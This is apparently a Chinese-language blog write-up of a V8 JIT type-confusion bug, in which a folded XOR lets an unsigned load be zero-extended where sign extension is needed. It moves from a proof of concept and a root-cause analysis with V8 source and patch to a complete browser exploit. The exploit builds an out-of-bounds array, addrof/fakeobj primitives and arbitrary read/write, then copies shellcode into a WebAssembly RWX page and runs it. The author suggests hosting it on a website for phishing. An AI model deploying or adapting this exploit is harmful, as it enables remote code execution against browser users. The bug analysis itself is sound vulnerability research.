




## poc
```js
  const arr = new Uint32Array([2**31]);
  function foo() {
    return (arr[0] ^ 0) + 1;
  }
  %PrepareFunctionForOptimization(foo);
  print(foo());
  %OptimizeFunctionOnNextCall(foo);
  print(foo());
```
执行结果：
```
-2147483647
2147483649
```

## 基础补充
### 整数扩展
当你将一个较窄类型转换为另一个更宽的类型时，机器会按位将旧的变量复制到新的变量，然后将其他的高位设为0或者1.
- 如果源类型是无符号的，机器就会使用零扩展(zero extension)，也就是在宽类型中将剩余高位设为0.
- 如果源类型是带符号的，机器就会使用符号位扩展(sign extension)，也就是将宽类型剩余未使用位设为源类型中符号位的值。


## root cause

poc代码很少只有一行(arr[0] ^ 0) + 1，我们简单分析一下这个运算的类型转换过程：
arr[0]是unsigned int32 = `2**31` = 2147483648 = 0x8000 0000
->
`arr[0] ^ 0`会转成signed int32 = `2**31^0` = 0x8000 0000 = -2147483648
->
`(arr[0] ^ 0) + 1`会转成signed int64，按理说是先符号拓展，得到0xFFFF FFFF 8000 0000，然后再加一，得到0xFFFF FFFF 8000 0001 = -2147483647

但因为JIT的x64指令选择存在问题，所以在为ChangeInt32ToInt64 IR生成汇编时会对0x8000 0000进行零拓展，得到0x0000 0000 8000 0000，然后再加一，得到0x0000 0000 8000 0001 = 2147483649

下面我们根据ir图来进行分析：
typer阶段：

simplifed lowering阶段：

EarlyOptimization阶段：


可以看到在这里xor被优化为了LoadTypedElement，我们从源码来看看发生了什么：

```
template <typename WordNAdapter>
Reduction MachineOperatorReducer::ReduceWordNXor(Node* node) {
  using A = WordNAdapter;
  A a(this);

  typename A::IntNBinopMatcher m(node);
  if (m.right().Is(0)) return Replace(m.left().node());  // x ^ 0 => x
  if (m.IsFoldable()) {  // K ^ K => K  (K stands for arbitrary constants)
    return a.ReplaceIntN(m.left().ResolvedValue() ^ m.right().ResolvedValue());
  }
  if (m.LeftEqualsRight()) return ReplaceInt32(0);  // x ^ x => 0
  if (A::IsWordNXor(m.left()) && m.right().Is(-1)) {
    typename A::IntNBinopMatcher mleft(m.left().node());
    if (mleft.right().Is(-1)) {  // (x ^ -1) ^ -1 => x
      return Replace(mleft.left().node());
    }
  }

  return a.TryMatchWordNRor(node);
}
```
再回头看下上图，我们Word32Xor的两个输入节点分别为loadtypedelement和0，满足代码中的m.right().Is(0)，所以这里会执行：Replace(m.left().node());将Word32Xor替换为了他的左输入节点，于是出现了上图中Word32Xor被替换为了LoadTypedElement的结果。

我们接下来就去分析一下这个指令是如何错误使用了零拓展：

```c++
       case MachineRepresentation::kWord32:
-        opcode = load_rep.IsSigned() ? kX64Movsxlq : kX64Movl;
+        // ChangeInt32ToInt64 must interpret its input as a _signed_ 32-bit
+        // integer, so here we must sign-extend the loaded value in any case.
+        opcode = kX64Movsxlq;
```
从补丁可以看出，存在漏洞的逻辑是根据`load_rep.IsSigned()`来选择opcode是kX64Movsxlq还是kX64Movl指令，前者是符号拓展，后者是零拓展。

这里的load_rep.IsSigned将会获取loadtypedelement的类型也就是Unsigned，所以最终将会选择零拓展也就是kX64Movl。最终导致了上面说的0x0000 0000 8000 0001 = 2147483649这个结果的产生。

接下来就是扩大漏洞影响，去构造oob来进行下一步的利用：

这里我们依旧使用了array.shift这个trick，这里在上篇文章中已经分析过了，这里就简单再回忆一下：

伪代码如下：
```
/* JSCallReducer::ReduceArrayPrototypeShift */
let length = LoadField(arr, kLengthOffset); 
if (length == 0) { 
    return;
}
else {
    if (length <= 100) { 
        DoShiftElementsArray(); // Don't care /* Update length field */
        let newLen = length - 1; 
        StoreField(arr, kLengthOffset, newLen);
    }
    else /* length > 100 */ 
    {
        CallRuntime(ArrayShift);
    }
}
```
这里只要让length满足不等于0且小于等于100，即可执行-1之后保存新的length。

这是经过常量折叠后保存的新的长度-1。


修改后的oob poc
```
function foo(a) {
    var x = 1;
	x = (_arr[0] ^ 0) + 1;

	x = Math.abs(x);
	x -= 2147483647;
	x = Math.max(x, 0);

	x -= 1;
	if(x==-1) x = 0;

	var arr = new Array(x);
	arr.shift();
	var cor = [1.1, 1.2, 1.3];

	return [arr, cor];
}

for(var i=0;i<0x3000;++i)
    foo(true);

var x = foo(false);
console.log(x[0].length)
```
执行这个poc可以得到x[0]也就是我们的越界数组他的长度为-1也就是0xffffffff。


## exp

windows版本，可在--no-sanbox下触发：

开启web服务，上线包含漏洞代码的html，即可通过该网站来进行钓鱼。

```
<script>
var wasm_code = new Uint8Array([0,97,115,109,1,0,0,0,1,133,128,128,128,0,1,96,0,1,127,3,130,128,128,128,0,1,0,4,132,128,128,128,0,1,112,0,0,5,131,128,128,128,0,1,0,1,6,129,128,128,128,0,0,7,145,128,128,128,0,2,6,109,101,109,111,114,121,2,0,4,109,97,105,110,0,0,10,138,128,128,128,0,1,132,128,128,128,0,0,65,42,11])
var wasm_mod = new WebAssembly.Module(wasm_code);
var wasm_instance = new WebAssembly.Instance(wasm_mod);
var f = wasm_instance.exports.main;

var buf = new ArrayBuffer(8);
var f64_buf = new Float64Array(buf);
var u64_buf = new Uint32Array(buf);
let buf2 = new ArrayBuffer(0x150);

function ftoi(val) {
    f64_buf[0] = val;
    return BigInt(u64_buf[0]) + (BigInt(u64_buf[1]) << 32n);
}

function itof(val) {
    u64_buf[0] = Number(val & 0xffffffffn);
    u64_buf[1] = Number(val >> 32n);
    return f64_buf[0];
}

const _arr = new Uint32Array([2**31]);

function foo(a) {
    var x = 1;
	x = (_arr[0] ^ 0) + 1;

	x = Math.abs(x);
	x -= 2147483647;
	x = Math.max(x, 0);

	x -= 1;
	if(x==-1) x = 0;

	var arr = new Array(x);
	arr.shift();
	var cor = [1.1, 1.2, 1.3];

	return [arr, cor];
}

for(var i=0;i<0x3000;++i)
    foo(true);

var x = foo(false);
var arr = x[0];
var cor = x[1];

const idx = 6;
arr[idx+10] = 0x4242;

function addrof(k) {
    arr[idx+1] = k;
    return ftoi(cor[0]) & 0xffffffffn;
}

function fakeobj(k) {
    cor[0] = itof(k);
    return arr[idx+1];
}

var float_array_map = ftoi(cor[3]);

var arr2 = [itof(float_array_map), 1.2, 2.3, 3.4];
var fake = fakeobj(addrof(arr2) + 0x20n);

function arbread(addr) {
    if (addr % 2n == 0) {
        addr += 1n;
    }
    arr2[1] = itof((2n << 32n) + addr - 8n);
    return (fake[0]);
}

function arbwrite(addr, val) {
    if (addr % 2n == 0) {
        addr += 1n;
    }
    arr2[1] = itof((2n << 32n) + addr - 8n);
    fake[0] = itof(BigInt(val));
}

function copy_shellcode(addr, shellcode) {
    let dataview = new DataView(buf2);
    let buf_addr = addrof(buf2);
    let backing_store_addr = buf_addr + 0x14n;
    arbwrite(backing_store_addr, addr);

    for (let i = 0; i < shellcode.length; i++) {
        dataview.setUint32(4*i, shellcode[i], true);
    }
}

var rwx_page_addr = ftoi(arbread(addrof(wasm_instance) + 0x68n));
console.log("[+] Address of rwx page: " + rwx_page_addr.toString(16));
var shellcode = [3833809148,12642544,1363214336,1364348993,3526445142,1384859749,1384859744,1384859672,1921730592,3071232080,827148874,3224455369,2086747308,1092627458,1091422657,3991060737,1213284690,2334151307,21511234,2290125776,1207959552,1735704709,1355809096,1142442123,1226850443,1457770497,1103757128,1216885899,827184641,3224455369,3384885676,3238084877,4051034168,608961356,3510191368,1146673269,1227112587,1097256961,1145572491,1226588299,2336346113,21530628,1096303056,1515806296,1497454657,2202556993,1379999980,1096343807,2336774745,4283951378,1214119935,442,0,2374846464,257,2335291969,3590293359,2729832635,2797224278,4288527765,3296938197,2080783400,3774578698,1203438965,1785688595,2302761216,1674969050,778267745,6649957];
copy_shellcode(rwx_page_addr, shellcode);
f();
</script>
```